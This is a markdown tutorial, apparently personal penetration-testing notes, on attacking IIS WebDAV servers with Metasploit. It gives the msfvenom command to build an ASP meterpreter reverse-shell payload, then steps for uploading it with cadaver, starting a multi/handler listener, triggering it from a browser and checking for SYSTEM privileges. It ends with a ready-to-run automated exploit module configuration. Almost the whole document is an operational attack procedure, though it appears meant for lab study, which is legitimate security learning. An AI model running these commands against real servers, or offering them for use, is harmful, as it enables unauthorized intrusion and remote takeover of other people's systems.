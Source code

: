 # Exploiting WebDAV with MetaSploit

## Contents
- [Payload Prep](#payload-prep)
  - [1. MSFVenom](#1-msfvenom)
  - [2. Upload the Payload](#2-upload-the-payload)
  - [3. Set up a Listener](#3-set-up-a-listener)
  - [4. Browser to Execute](#4-browser-to-execute)
  - [5. Reverse Shell](#5-reverse-shell)
- [Automated Exploit](#automated-exploit)

## Payload Prep

### 1. MSFVenom
> msfvenom is a Metasploit tool that allows you to generate payloads (e.g., reverse shells, remote access, etc.)
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[local host ip] LPORT=[local port number] -f asp > shell.asp
```
- `-p` for payload
- `-f` for file format
- This prepares a reverse shell meterpreter session

### 2. Upload the Payload
- Use [cadaver](exploit_webdav.md#5-cadaver) to upload the payload (shell.asp)

### 3. Set up a Listener
- Set up a listener on the port you designated in the msfvenom command above.
- Start up `msfconsole`:
  - Load the multi/handler module: `use multi/handler`
  - Set your payload (it has to be the same payload you specified in the msfvenom build): `set payload windows/meterpreter/reverse_tcp`
  - Set LHOST and LPORT (same as msvenom)
  - Check your options.
  - `run` will start up the listener (the reverse TCP handler)

### 4. Browser to Execute
- Go back to your browser, the webdav directory, and execute the payload.

### 5. Reverse Shell
- Back to Metasploit and you should have a reverse shell into the target
- Run `sysinfo` to get info on the target machine
- Run `getuid` to check out who you are on the target machine. (NT AUTHORITY/SYSTEM indicates we are admin/root)

## Automated Exploit
> You can do all of the above using one MetaSploit module.
```
use exploit/windows/iis/iis_webdav_upload_asp
set payload windows/meterpreter/reverse_tcp
set LHOST [IP]
set RHOST [IP]
set PATH /[SUBDIR]
    # example: /webdav/
run
```
